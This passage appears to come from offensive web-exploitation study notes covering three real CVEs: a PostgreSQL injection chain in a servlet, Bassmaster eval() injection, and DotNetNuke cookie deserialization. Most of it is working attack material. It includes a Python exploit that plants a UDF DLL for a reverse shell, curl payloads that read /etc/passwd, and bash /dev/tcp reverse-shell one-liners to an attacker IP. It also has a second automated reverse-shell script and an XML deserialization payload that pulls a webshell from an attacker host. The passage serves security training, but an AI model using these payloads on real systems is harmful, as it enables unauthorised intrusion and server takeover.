for i in range(0, ((len(udf) - 1) // 4096) + 1):
udf_chunk = udf[i * 4096:(i + 1) * 4096]
if i == 0:
sql = "UPDATE pg_largeobject SET data=decode($$%s$$, $$hex$$) WHERE loid=%d AND pageno=%d" % (udf_chunk, loid, i)
else:
sql = "INSERT INTO pg_largeobject (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$hex$$))" % (loid, i, udf_chunk)
make_request(url, sql)
def export_udf(url, loid):
log("[+] Exporting UDF library to filesystem...")
sql = "SELECT lo_export(%d, $$C:\\[writable-path]\\[dll-name].dll$$)" % loid
make_request(url, sql)
def create_udf_func(url):
log("[+] Creating function...")
sql = "CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$C:\\[writable-path]\\[dll-name].dll$$, $$connect_back$$ LANGUAGE C STRICT"
make_request(url, sql)
def trigger_udf(url, ip, port):
log("[+] Launching reverse shell...")
sql = "SELECT rev_shell($$%s$$, %d)" % (ip, int(port))
make_request(url, sql)
if __name__ == '__main__':
try:
server = sys.argv[1].strip()
attacker = sys.argv[2].strip()
port = sys.argv[3].strip()
except IndexError:
print("[-] Usage: %s [target-ip]:[port] [attacker-ip] [listener-port]" % sys.argv[0])
sys.exit()
sqli_url = "https://" + server + "/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--"
delete_lo(sqli_url, loid)
create_lo(sqli_url, loid)
inject_udf(sqli_url, loid)
export_udf(sqli_url, loid)
create_udf_func(sqli_url)
trigger_udf(sqli_url, attacker, port)Methodology
-
grep -rn "servlet-mapping\|servlet-name\|servlet-class" WEB-INF/web.xml -
grep -rn "executeQuery\|prepareStatement" --include="*.java" . # Regex for SELECT with string concatenation: # ^.*?query.*?select.*? -
curl -k "https://[target-ip]:[port]/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;SELECT+pg_sleep(10);--+" -
SELECT CASE WHEN (SELECT current_setting($$is_superuser$$))=$$on$$ THEN pg_sleep(10) END; -
COPY (SELECT $$payload$$) TO $$C:\\output.txt$$; -
SELECT lo_import($$C:\\windows\\win.ini$$, 1337); UPDATE pg_largeobject SET data=decode($$HEX$$, $$hex$$) WHERE loid=1337 AND pageno=0; SELECT lo_export(1337, $$C:\\[writable-path]\\[dll-name].dll$$); -
CREATE OR REPLACE FUNCTION rev_shell(text, integer) RETURNS void AS $$C:\[writable-path]\[dll-name].dll$$, $$connect_back$$ LANGUAGE C STRICT; SELECT rev_shell($$[attacker-ip]$$, [listener-port]);
5. Bassmaster NodeJS Arbitrary JavaScript Injection
5.1 Overview
Bassmaster is a batch processing plugin for Hapi.js, a Node.js web framework. The plugin exposes a /batch endpoint that accepts multiple API requests in a single HTTP call. Each request in the batch can reference results from previous requests using $N.path.to.value syntax.
The vulnerability (CVE-2014-7205) exists in how Bassmaster resolves these inter-request references. The internals.batch() function passes user-controlled reference strings directly into JavaScript's eval(), allowing arbitrary code execution on the server. Because Node.js provides child_process through require(), this code execution leads directly to OS command injection and reverse shell access.
| Component | Detail |
|---|---|
| Vulnerable Package | bassmaster <= 1.5.1 |
| Framework | Hapi.js (Node.js) |
| CVE | CVE-2014-7205 |
| Vulnerability | Arbitrary JavaScript injection via eval() |
| Impact | Remote Code Execution (unauthenticated) |
| Root Cause | User input passed to eval() without sanitization |
Methodology
-
cat package.json | grep -i bassmaster ls node_modules/bassmaster/ -
cat node_modules/bassmaster/package.json | grep version -
grep -rn "batchEndpoint" node_modules/bassmaster/ grep -rn "bassmaster" server.js app.js index.js 2>/dev/null -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/"}]}' -
grep -n "eval(" node_modules/bassmaster/lib/batch.js
5.2 Hapi.js Framework and Plugin Architecture
5.2.1 Route Configuration
Hapi.js routes are declared with a method, path, and handler function. Plugins extend the server by registering additional routes, authentication strategies, or request lifecycle hooks.
// Hapi.js route configuration structure
var Hapi = require('hapi');
var server = new Hapi.Server();
server.connection({ port: 8080 });
server.route({
method: 'GET',
path: '/api/users/{id}',
handler: function (request, reply) {
var userId = request.params.id;
// fetch user from database
reply({ id: userId, name: 'admin' });
}
});
// Register plugins
server.register({
register: require('bassmaster'),
options: { batchEndpoint: '/batch' }
}, function (err) {
if (err) throw err;
});
server.start();5.2.2 Plugin Registration
The Bassmaster plugin registers the /batch endpoint during initialization. The batchEndpoint option controls the URL path. The server then accepts POST requests to /batch with a JSON array of sub-requests.
// Bassmaster plugin registration (lib/index.js)
exports.register = function (plugin, options, next) {
var settings = Hoek.applyToDefaults(internals.defaults, options);
plugin.route({
method: 'POST',
path: settings.batchEndpoint,
config: internals.batchConfig,
handler: function (request, reply) {
internals.batch(request, settings, reply);
}
});
next();
};Methodology
-
grep -rn "server.register\|plugin.register" --include="*.js" . -
grep -rn "server.route\|plugin.route" --include="*.js" . -
grep -rn "require.*bassmaster" --include="*.js" . grep -rn "batchEndpoint" --include="*.js" . -
cat node_modules/bassmaster/lib/index.js
5.3 Batch Request Protocol
The /batch endpoint accepts a JSON object with a requests array. Each element specifies a method and path for an internal API call. The server executes each sub-request sequentially and collects the responses.
{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/api/users/2" }
]
}# Send a batch request
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/api/users/2"}]}'The response contains an array of results corresponding to each sub-request, preserving order:
[
{ "statusCode": 200, "payload": { "id": "1", "name": "admin" }, "headers": {} },
{ "statusCode": 200, "payload": { "id": "2", "name": "guest" }, "headers": {} }
]5.3.1 Inter-Request References
Bassmaster supports referencing results from earlier requests in the batch using $N notation, where N is the zero-indexed position of the prior request. The reference resolves to a property path on the response object.
| Reference | Resolves To |
|---|---|
$0 | Full response object of first request |
$0.id | The id field from the first response payload |
$1.name | The name field from the second response payload |
{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/api/users/$0.id" }
]
}In this example, the second request path includes $0.id. Bassmaster resolves this by extracting the id field from the first request's response and substituting it into the path string before dispatching the second request.
Methodology
-
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/api/users/2"}]}' -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/api/users/$0.id"}]}' -
cat node_modules/bassmaster/lib/batch.js | grep -A 20 "parts\|split\|\$"
5.4 Vulnerability Discovery
The vulnerability is in the reference resolution logic within internals.batch(). When a request path contains a $N reference, Bassmaster splits the reference on . and iterates through the parts to resolve the property chain. The resolution uses eval() to dereference each path segment.
// Vulnerable reference resolution in lib/batch.js (bassmaster <= 1.5.1)
internals.batch = function (request, settings, reply) {
var resultsData = [];
var requests = request.payload.requests;
// Process each request sequentially
Async.forEachSeries(requests, function (requestParts, next) {
var path = requestParts.path;
// Check for $N references in the path
var parts = path.match(/\$(\d)+/g);
if (parts) {
for (var i = 0; i < parts.length; i++) {
var ref = resultsData[parts[i].substring(1)]; // Get referenced result
// VULNERABLE: eval() used to resolve property path
var value = eval('ref.' + path.split('$' + parts[i].substring(1) + '.')[1]);
path = path.replace('$' + parts[i].substring(1) + '.' +
path.split('$' + parts[i].substring(1) + '.')[1], value);
}
}
// Dispatch the resolved request internally
// ...
});
};The vulnerable line is eval('ref.' + parts[i]). The parts[i] variable comes directly from the user-supplied path string after splitting on $N.. No sanitization, allowlist, or sandboxing is applied before passing the string to eval().
| Sink | Source | Sanitization |
|---|---|---|
eval() | request.payload.requests[].path | None |
5.4.1 Safe Alternative
The fix (bassmaster 1.5.2+) replaced eval() with iterative property access using bracket notation:
// Fixed reference resolution (bassmaster >= 1.5.2)
var value = ref;
var keys = path.split('$' + parts[i].substring(1) + '.')[1].split('.');
for (var k = 0; k < keys.length; k++) {
if (value) {
value = value[keys[k]];
}
}Methodology
-
cat node_modules/bassmaster/lib/batch.js -
# Compare vulnerable vs fixed code diff node_modules/bassmaster/lib/batch.js /path/to/fixed/batch.js
5.5 Triggering the Vulnerability
The injection requires at least two requests in the batch: the first provides a valid result object (so ref is not null), and the second contains the injected JavaScript in its path after the $0. reference prefix.
5.5.1 Proof of Concept
# PoC: execute arbitrary JavaScript via batch reference
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/$0.constructor.constructor(\"return 1+1\")()" }
]
}'The injected path /$0.constructor.constructor("return 1+1")() exploits the JavaScript prototype chain. Every object's constructor property points to its constructor function, and a function's constructor is the Function constructor. Calling Function("return 1+1")() creates and executes an anonymous function that returns 2.
A simpler injection path uses require() directly, since Node.js makes it available in the eval() scope:
# Direct require() injection
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/$0.require(\"os\").hostname()" }
]
}'5.5.2 Command Execution
Node.js child_process provides synchronous and asynchronous methods for OS command execution. For injection via eval(), execSync() returns command output directly, while exec() runs asynchronously and requires a callback.
| Method | Execution | Use Case |
|---|---|---|
execSync(cmd) | Synchronous, returns stdout | Data exfiltration, file reads |
exec(cmd, callback) | Asynchronous, callback receives output | Reverse shells, long-running commands |
spawnSync(cmd, args) | Synchronous, returns object with stdout/stderr | Commands with complex arguments |
# Read /etc/passwd via execSync
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/$0.require(\"child_process\").execSync(\"cat /etc/passwd\").toString()" }
]
}'# Enumerate system information
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/$0.require(\"child_process\").execSync(\"id && uname -a && hostname\").toString()" }
]
}'Methodology
-
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.constructor.constructor(\"return 1+1\")()"}]}' -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").execSync(\"id\").toString()"}]}' -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").execSync(\"id && uname -a && cat /etc/passwd\").toString()"}]}' -
# On attacker nc -nlvp [listener-port] # Reverse shell via batch injection curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").exec(\"bash -c \\\"bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1\\\"\")"}]}'
5.6 Obtaining a Reverse Shell
For a stable reverse shell, use the asynchronous exec() method with a bash reverse shell one-liner. The shell command must be properly escaped for JSON and JavaScript string contexts.
# Start a listener on the attacker machine
nc -lvnp [listener-port]# Trigger reverse shell via Bassmaster injection
curl -s -X POST http://[target-ip]:[port]/batch \
-H "Content-Type: application/json" \
-d '{
"requests": [
{ "method": "get", "path": "/api/users/1" },
{ "method": "get", "path": "/$0.require(\"child_process\").exec(\"bash -c \\\"bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1\\\"\")" }
]
}'5.6.1 Automated Python Exploit
#!/usr/bin/env python3
"""Bassmaster CVE-2014-7205 - eval() injection to reverse shell."""
import argparse
import json
import requests
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
def check_vuln(target, batch_path="/batch", api_path="/api/users/1"):
"""Confirm eval() injection via hostname leak."""
payload = {
"requests": [
{"method": "get", "path": api_path},
{"method": "get", "path": f'/{api_path.lstrip("/")}.$0.require("child_process").execSync("hostname").toString()'.replace(api_path.lstrip("/") + ".", "$0.")}
]
}
# Simplified payload construction
payload = {
"requests": [
{"method": "get", "path": api_path},
{"method": "get", "path": '/$0.require("child_process").execSync("hostname").toString()'}
]
}
url = f"{target.rstrip('/')}{batch_path}"
resp = requests.post(url, json=payload, verify=False, timeout=10)
if resp.status_code == 200:
data = resp.json()
if len(data) > 1 and data[1].get("statusCode") != 404:
print(f"[+] Vulnerable - hostname: {data[1].get('payload', 'unknown')}")
return True
print("[-] Target does not appear vulnerable")
return False
def reverse_shell(target, lhost, lport, batch_path="/batch", api_path="/api/users/1"):
"""Send reverse shell payload."""
cmd = f'bash -c "bash -i >& /dev/tcp/{lhost}/{lport} 0>&1"'
js_cmd = cmd.replace('"', '\\"')
payload = {
"requests": [
{"method": "get", "path": api_path},
{"method": "get", "path": f'/$0.require("child_process").exec("{js_cmd}")'}
]
}
url = f"{target.rstrip('/')}{batch_path}"
print(f"[*] Sending reverse shell payload to {url}")
print(f"[*] Callback: {lhost}:{lport}")
try:
requests.post(url, json=payload, verify=False, timeout=5)
except requests.exceptions.ReadTimeout:
pass # Expected - shell hijacks the connection
print("[*] Check listener for incoming connection")
if __name__ == "__main__":
parser = argparse.ArgumentParser(description="Bassmaster eval() injection exploit")
parser.add_argument("target", help="Target URL (e.g., http://[target-ip]:[port])")
parser.add_argument("lhost", help="Attacker IP for reverse shell callback")
parser.add_argument("lport", type=int, help="Attacker port for reverse shell callback")
parser.add_argument("--batch", default="/batch", help="Batch endpoint path (default: /batch)")
parser.add_argument("--api", default="/api/users/1", help="Valid API path for first request")
parser.add_argument("--check", action="store_true", help="Check vulnerability only, no exploit")
args = parser.parse_args()
if check_vuln(args.target, args.batch, args.api):
if not args.check:
reverse_shell(args.target, args.lhost, args.lport, args.batch, args.api)
else:
print("[-] Aborting - target not vulnerable")# Usage
python3 bassmaster_exploit.py http://[target-ip]:[port] [attacker-ip] [listener-port]
# Check only (no shell)
python3 bassmaster_exploit.py http://[target-ip]:[port] [attacker-ip] [listener-port] --checkMethodology
-
cat node_modules/bassmaster/package.json | grep version -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/"}]}' -
grep -n "eval(" node_modules/bassmaster/lib/batch.js -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").execSync(\"id\").toString()"}]}' -
curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").execSync(\"id && cat /etc/passwd\").toString()"}]}' -
# Listener nc -lvnp [listener-port] # Trigger curl -s -X POST http://[target-ip]:[port]/batch \ -H "Content-Type: application/json" \ -d '{"requests":[{"method":"get","path":"/api/users/1"},{"method":"get","path":"/$0.require(\"child_process\").exec(\"bash -c \\\"bash -i >& /dev/tcp/[attacker-ip]/[listener-port] 0>&1\\\"\")"}]}' -
python3 -c 'import pty; pty.spawn("/bin/bash")' export TERM=xterm # Ctrl+Z, then: stty raw -echo; fg
6. DotNetNuke Cookie Deserialization RCE
6.1 Serialization Basics
Serialization converts an object's state into a format that can be stored or transmitted over a network. Deserialization reconstructs the object from that format. When an application deserializes untrusted data without type validation, an attacker can inject malicious objects that execute code during reconstruction.
.NET supports multiple serialization mechanisms including BinaryFormatter, XmlSerializer, and DataContractSerializer. This module focuses on XmlSerializer as it directly relates to the DotNetNuke vulnerability (CVE-2017-9822).
| Access | URL / Host | Username | Password |
|---|---|---|---|
| DNN Web | http://[target-hostname]/[application-path] | [username] | [password] |
| RDP | rdp://[target-hostname] | [username] | [password] |
6.1.1 XmlSerializer Limitations
XmlSerializer can only serialize public properties and fields of an object. It cannot serialize abstract classes, and the type of the object being serialized must always be known to the XmlSerializer instance at runtime.
| Limitation | Implication |
|---|---|
| Public properties/fields only | Private members are ignored during serialization |
| No abstract classes | Only concrete types can be serialized |
| Type must be known at runtime | Unknown types cause InvalidOperationException |
| No method serialization | Only properties/fields, not method calls, are serialized |
6.1.2 Basic XmlSerializer Example
A serializer application creates an object, sets a property, and writes the XML representation to disk. The deserializer reads that XML and reconstructs the object. Property setters execute automatically during deserialization.
// Serializer application
using System;
using System.IO;
using System.Xml.Serialization;
namespace BasicXMLSerializer
{
class Program
{
static void Main(string[] args)
{
MyConsoleText myText = new MyConsoleText();
myText.text = args[0];
MySerializer(myText);
}
static void MySerializer(MyConsoleText txt)
{
var ser = new XmlSerializer(typeof(MyConsoleText));
TextWriter writer = new StreamWriter("C:\\Users\\Public\\basicXML.txt");
ser.Serialize(writer, txt);
writer.Close();
}
}
public class MyConsoleText
{
private String _text;
public String text
{
get { return _text; }
set { _text = value; Console.WriteLine("My first console text class says: " + _text); }
}
}
}The serialized object stored in basicXML.txt:
<?xml version="1.0" encoding="utf-8"?>
<MyConsoleText xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<text>Hello AWAE</text>
</MyConsoleText>The deserializer reads the XML file and reconstructs the object. The text property setter fires during deserialization, printing output to the console.
// Deserializer application
using System.IO;
using System.Xml.Serialization;
using BasicXMLSerializer;
namespace BasicXMLDeserializer
{
class Program
{
static void Main(string[] args)
{
var fileStream = new FileStream(args[0], FileMode.Open, FileAccess.Read);
var streamReader = new StreamReader(fileStream);
XmlSerializer serializer = new XmlSerializer(typeof(MyConsoleText));
serializer.Deserialize(streamReader);
}
}
}# Run the serializer
BasicXMLSerializer.exe "Hello AWAE"
# Run the deserializer - setter fires automatically
BasicXMLDeserializer.exe "C:\Users\Public\basicXML.txt"
# Output: My first console text class says: Hello AWAE6.1.3 Expanded XmlSerializer (Dynamic Type Resolution)
A more flexible pattern stores the object type in an XML attribute so the deserializer can resolve it dynamically at runtime. The serializer writes the assembly-qualified type name into an objectType attribute on an item element.
// Serializer: stores type info in XML
static void CustomSerializer(Object myObj)
{
XmlDocument xmlDocument = new XmlDocument();
XmlElement xmlElement = xmlDocument.CreateElement("customRootNode");
xmlDocument.AppendChild(xmlElement);
XmlElement xmlElement2 = xmlDocument.CreateElement("item");
xmlElement2.SetAttribute("objectType", myObj.GetType().AssemblyQualifiedName);
XmlDocument xmlDocument2 = new XmlDocument();
XmlSerializer xmlSerializer = new XmlSerializer(myObj.GetType());
StringWriter writer = new StringWriter();
xmlSerializer.Serialize(writer, myObj);
xmlDocument2.LoadXml(writer.ToString());
xmlElement2.AppendChild(xmlDocument.ImportNode(xmlDocument2.DocumentElement, true));
xmlElement.AppendChild(xmlElement2);
File.WriteAllText("C:\\Users\\Public\\multiXML.txt", xmlDocument.OuterXml);
}The deserializer reads the objectType attribute and uses Type.GetType() to dynamically create the XmlSerializer. An attacker who controls the XML can change the type to deserialize a completely different class.
// Deserializer: resolves type dynamically from XML
static void CustomDeserializer(String myXMLString)
{
XmlDocument xmlDocument = new XmlDocument();
xmlDocument.LoadXml(myXMLString);
foreach (XmlElement xmlItem in xmlDocument.SelectNodes("customRootNode/item"))
{
string typeName = xmlItem.GetAttribute("objectType");
var xser = new XmlSerializer(Type.GetType(typeName));
var reader = new XmlTextReader(new StringReader(xmlItem.InnerXml));
xser.Deserialize(reader);
}
}The serialized XML format with embedded type information:
<customRootNode>
<item objectType="Namespace.ClassName, Assembly, Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<ClassName xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<propertyName>value</propertyName>
</ClassName>
</item>
</customRootNode>6.1.4 Type Confusion for Code Execution
When a deserializer namespace contains a class whose property setter executes code (like launching a process), an attacker can substitute that class in the XML. No type verification means arbitrary class instantiation is possible.
// ExecCMD class - setter launches a process
public class ExecCMD
{
private String _cmd;
public String cmd
{
get { return _cmd; }
set
{
_cmd = value;
ExecCommand();
}
}
private void ExecCommand()
{
Process myProcess = new Process();
myProcess.StartInfo.FileName = _cmd;
myProcess.Start();
myProcess.Dispose();
}
}Crafted XML that triggers calc.exe during deserialization by substituting the ExecCMD type:
<customRootNode>
<item objectType="MultiXMLDeserializer.ExecCMD, MultiXMLDeserializer,
Version=1.0.0.0, Culture=neutral, PublicKeyToken=null">
<ExecCMD xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<cmd>calc.exe</cmd>
</ExecCMD>
</item>
</customRootNode>Methodology
-
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-hostname] /size:1180x708 -
# Compile serializer and deserializer csc.exe BasicXMLSerializer.cs csc.exe /r:BasicXMLSerializer.exe BasicXMLDeserializer.cs # Test: setter fires during deserialization BasicXMLSerializer.exe "Hello AWAE" BasicXMLDeserializer.exe "C:\Users\Public\basicXML.txt"
6.2 DotNetNuke Vulnerability Analysis
6.2.1 Vulnerability Overview
The DNNPersonalization cookie contains XML-serialized user profile data. DotNetNuke deserializes this cookie without validating the object types, creating an insecure deserialization vulnerability (CVE-2017-9822) exploitable without authentication.

The entry point is the LoadProfile function in DotNetNuke.Services.Personalization.PersonalizationController. At line 24, it checks for the DNNPersonalization cookie. Line 26 assigns the cookie value to a local variable. Line 29 passes that value to DeserializeHashTableXml.
6.2.2 Cookie Processing Flow
The deserialization chain passes through three functions before reaching the vulnerable XmlSerializer call. No type checking is performed at any point in this chain.
| Step | Function | Action |
|---|---|---|
| 1 | LoadProfile | Reads DNNPersonalization cookie value |
| 2 | DeserializeHashTableXml | Wrapper; hardcodes "profile" as root node name |
| 3 | DeSerializeHashtable | Iterates profile/item nodes, extracts type attribute, creates XmlSerializer, deserializes |
The DeSerializeHashtable function performs the critical operations: it looks for every item node under the profile root tag (line 156), extracts the type from the type attribute (line 160), creates a new XmlSerializer with that type (line 161), and deserializes the user-controlled content (line 163).
6.2.3 Unauthenticated Access Mechanics
Requesting a nonexistent page triggers the AdvancedUrlReWriter.Handle404OrException handler. If HttpContext.User is null, it gets assigned Thread.CurrentPrincipal (the IIS APPPOOL identity), causing the request to be treated as authenticated.
This allows the code to reach PortalSettings.UserMode getter (line 922), which checks HttpContext.Current.Request.IsAuthenticated. Since the 404 handler set User to the Windows principal, IsAuthenticated returns true, and the LoadProfile personalization code path executes.
6.2.4 Debugging Setup
Release-mode .NET assemblies apply runtime optimizations that prevent setting breakpoints at arbitrary lines. Modify the [assembly: Debuggable] attribute to disable optimizations before debugging.

// Change from (Release mode):
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints)]
// To (Debug-friendly):
[assembly: Debuggable(DebuggableAttribute.DebuggingModes.Default |
DebuggableAttribute.DebuggingModes.DisableOptimizations |
DebuggableAttribute.DebuggingModes.IgnoreSymbolStoreSequencePoints |
DebuggableAttribute.DebuggingModes.EnableEditAndContinue)]Target file: C:\inetpub\wwwroot\dotnetnuke\bin\DotNetNuke.dll. Note that IIS loads copies from C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Temporary ASP.NET Files\dotnetnuke\, so modify the source DLL before IIS starts.
# dnSpy debugging workflow
# 1. Open DotNetNuke.dll in dnSpy (x64 version)
# 2. Right-click assembly name -> Edit Assembly Attributes (C#)
# 3. Replace Debuggable attribute, click Compile
# 4. File -> Save Module (overwrite original)
# 5. Debug -> Attach to Process -> select w3wp.exe
# 6. Debug -> Windows -> Modules -> right-click -> Open All Modules
# 7. Navigate to PersonalizationController.LoadProfile, set breakpoint on line 24
# Connect to DNN VM via RDP
xfreerdp +nego +sec-rdp +sec-tls +sec-nla /u:[username] /p:[password] /v:[target-hostname] /size:1180x708Methodology
-
# In dnSpy: right-click assembly -> Edit Assembly Attributes (C#) # Replace IgnoreSymbolStoreSequencePoints with full debug flags # Compile, then File -> Save Module -
# Debug -> Attach to Process -> w3wp.exe # If w3wp.exe not visible, browse to the DNN site first to spawn it
6.3 Payload Construction
6.3.1 FileSystemUtils.PullFile
The FileSystemUtils class in DotNetNuke.dll implements a PullFile method that downloads a file from a URL to the target server filesystem. This is a useful primitive for uploading a webshell.
However, FileSystemUtils cannot be used directly as a deserialization payload. XmlSerializer can only serialize public properties and fields, not methods. FileSystemUtils has no public properties that trigger PullFile when set, so a different approach is needed.
6.3.2 ObjectDataProvider Class
The ObjectDataProvider class (in System.Windows.Data, PresentationFramework.dll) wraps an arbitrary object and calls a specified method when its properties are set. Setting the MethodName property triggers method invocation through a chain of internal calls.
| Step | Function | Description |
|---|---|---|
| 1 | MethodName.set | Sets _methodName, calls base.Refresh() |
| 2 | Refresh() | Calls BeginQuery() |
| 3 | BeginQuery() | Overridden in ObjectDataProvider, calls QueryWorker() |
| 4 | QueryWorker() | Calls InvokeMethodOnInstance() |
| 5 | InvokeMethodOnInstance() | Invokes the target method on the wrapped object |
// ObjectDataProvider triggers PullFile through property setters
ObjectDataProvider myODP = new ObjectDataProvider();
myODP.ObjectInstance = new FileSystemUtils();
myODP.MethodName = "PullFile";
myODP.MethodParameters.Add("http://[attacker-ip]/shell.aspx");
myODP.MethodParameters.Add("[web-root]/[webshell-name].aspx");ObjectDataProvider does not violate any XmlSerializer limitations - all the critical values (ObjectInstance, MethodName, MethodParameters) are public properties. The InvokeMethodOnInstance breakpoint is hit three times: once for MethodName and once for each MethodParameters.Add call.
6.3.3 Serialization Problem
Directly serializing an ObjectDataProvider wrapping FileSystemUtils via DNN's SerializeDictionary function fails. The XmlSerializer is instantiated using GetType() on the ObjectDataProvider, so it has no knowledge of the wrapped FileSystemUtils type.
// This fails - XmlSerializer doesn't expect FileSystemUtils inside ObjectDataProvider
Hashtable table = new Hashtable();
table["myTableEntry"] = myODP;
String payload = XmlUtils.SerializeDictionary(table, "profile");
// Exception: "The type FileSystemUtils was not expected..."
// Even explicitly adding the type won't help at deserialization time
XmlSerializer xmlSerializer = new XmlSerializer(myODP.GetType(),
new Type[] { typeof(FileSystemUtils) });
// DNN's deserializer uses the default constructor - it won't know about FileSystemUtils6.3.4 ExpandedWrapper for Type Compatibility
The ExpandedWrapper class (System.Data.Services.Internal) is a generic container that specifies the types of encapsulated objects in its type parameters. This allows XmlSerializer to know about all involved types at serialization time.
By wrapping ObjectDataProvider inside ExpandedWrapper<FileSystemUtils, ObjectDataProvider>, the serializer receives type information for both classes. The ProjectedProperty0 property holds the ObjectDataProvider instance.
using System;
using System.IO;
using DotNetNuke.Common.Utilities;
using System.Collections;
using System.Data.Services.Internal;
using System.Windows.Data;
namespace ExpWrapSerializer
{
class Program
{
static void Main(string[] args)
{
ExpandedWrapper<FileSystemUtils, ObjectDataProvider> myExpWrap =
new ExpandedWrapper<FileSystemUtils, ObjectDataProvider>();
myExpWrap.ProjectedProperty0 = new ObjectDataProvider();
myExpWrap.ProjectedProperty0.ObjectInstance = new FileSystemUtils();
myExpWrap.ProjectedProperty0.MethodName = "PullFile";
myExpWrap.ProjectedProperty0.MethodParameters.Add(
"http://[attacker-ip]/shell.aspx");
myExpWrap.ProjectedProperty0.MethodParameters.Add(
"[web-root]/[webshell-name].aspx");
Hashtable table = new Hashtable();
table["myTableEntry"] = myExpWrap;
String payload = XmlUtils.SerializeDictionary(table, "profile");
TextWriter writer = new StreamWriter("C:\\Users\\Public\\payload.txt");
writer.Write(payload);
writer.Close();
}
}
}Verify the payload deserializes correctly using DNN's own deserialization function:
// Test deserialization with DNN's DeserializeHashTableXml
string xmlSource = System.IO.File.ReadAllText("C:\\Users\\Public\\payload.txt");
Globals.DeserializeHashTableXml(xmlSource);
// Check: attacker web server should receive a GET request for shell.aspxMethodology
-
# In dnSpy: Edit -> Search -> PullFile # Verify method signature: PullFile(string url, string localPath) -
ObjectDataProvider myODP = new ObjectDataProvider(); myODP.ObjectInstance = new FileSystemUtils(); myODP.MethodName = "PullFile"; myODP.MethodParameters.Add("http://[attacker-ip]/shell.aspx"); myODP.MethodParameters.Add("[web-root]/[webshell-name].aspx");
6.4 Full Exploit
6.4.1 Serialized XML Payload
The final serialized payload uses the profile/item structure expected by DNN's DeSerializeHashtable. The type attribute specifies the ExpandedWrapper with both FileSystemUtils and ObjectDataProvider type parameters.
<profile>
<item key="myTableEntry"
type="System.Data.Services.Internal.ExpandedWrapper`2[
[DotNetNuke.Common.Utilities.FileSystemUtils, DotNetNuke,
Version=9.1.0.367, Culture=neutral, PublicKeyToken=null],
[System.Windows.Data.ObjectDataProvider, PresentationFramework,
Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]],
System.Data.Services, Version=4.0.0.0, Culture=neutral,
PublicKeyToken=b77a5c561934e089">
<ExpandedWrapperOfFileSystemUtilsObjectDataProvider
xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
xmlns:xsd="http://www.w3.org/2001/XMLSchema">
<ProjectedProperty0>
<ObjectInstance xsi:type="FileSystemUtils" />
<MethodName>PullFile</MethodName>
<MethodParameters>
<anyType xsi:type="xsd:string">http://[attacker-ip]/[webshell-name].aspx</anyType>
<anyType xsi:type="xsd:string">[web-root]/[webshell-name].aspx</anyType>
</MethodParameters>
</ProjectedProperty0>
</ExpandedWrapperOfFileSystemUtilsObjectDataProvider>
</item>
</profile>6.4.2 Delivering the Payload
Host an ASPX webshell on the attacker machine and send the serialized payload as the DNNPersonalization cookie. The request must target a nonexistent page to trigger the 404 handler that leads to LoadProfile.
# Set up the attacker web server with an ASPX webshell
